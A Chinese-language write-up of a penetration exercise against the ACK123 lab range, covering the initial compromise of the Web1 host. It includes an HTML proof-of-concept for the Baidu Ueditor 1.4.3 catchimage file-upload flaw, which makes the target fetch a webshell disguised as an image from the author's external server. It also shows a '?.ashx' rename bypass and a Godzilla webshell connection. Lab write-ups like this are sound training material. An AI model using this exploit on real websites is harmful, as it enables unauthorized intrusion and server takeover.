# ACK123靶场渗透

> 因为网络环境差异，本次搭建进行了ip地址范围的调整，具体如下：

```
网卡总览
NAT
10.10.200.x
255.255.0.0
10.10.10.1
10.10.10.10

VM18
192.168.233.x
255.255.255.0

VM19
192.168.234.x
255.255.255.0

主机
web1
Eth0 > NAT: 10.10.200.24
Eth1 > VM18: 192.168.233.24

data1
Eth0 > VM18: 192.168.233.23
Eth1 > NAT: 10.10.200.23

web2
Eth0 > VM19: 192.168.234.25
Eth1 > VM18: 192.168.233.25

data2
Eth1 > VM19: 192.168.234.26

dc1
Eth0 > VM19: 192.168.234.27
```

## 渗透过程

### Web1

修改hosts将域名`test1234.ysneko.com`解析到`10.10.200.24`，即Web1的ip

访问主页，发现是一个商城网站，从页尾了解到建站系统为**HDHCMS**



查找资料了解到其后台路径为admin，访问



尝试了一些弱密码均无果，尝试使用注册功能







成功登录后台，但是权限非常低，无法修改后台设置

从当前权限搜集到已知信息如下：

```
程序：HDHCMS
物理路径：C:\Hws.com\HwsHostMaster\wwwroot\www.ackmoon.com\web
IIS环境：IIS/8.5
数据库：MSSQL
富文本编辑器：百度Ueditor 1.4.3
```

看样子算是一个比较老的建站程序了，还在使用富文本编辑器，目前看来可以从这里下手

Ueditor是百度的富文本编辑器，查了一下，1.4.3算是一个很老的版本了，大概在17年左右使用

首先找富文本编辑器的路径

百度搜索了一下HDHCMS，发现是一个开源cms，直接下载源码审计：

http://www.hdhcms.com/

成功找到源码中Ueditor的路径：`./Admin/net/`



查了会儿资料，发现Ueditor的1.4.3版本有一个比较出名的任意文件上传漏洞，poc如下：

```html
<form action="http://test1234.ysneko.com/admin/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded" method="POST">
    <p>shell addr:<input type="text" name="source[]" /></p>
    <inputtype="submit" value="Submit" />
</form>
```

在本地或者VPS（确保互通，能够访问）上搭建好，制作图片马上传，我的地址是下面：



打开刚刚的poc页面



图片马的地址为：

`https://www.ysneko.com/aspshell.gif`

通过？字符绕过重命名：

`https://www.ysneko.com/aspshell.gif?.ashx`

提交成功，地址为：

`http://test1234.ysneko.com/upfiles/image/20211019/6377019953885055874847474.ashx`



使用哥斯拉连接



连接成功，发现是个低权限用户



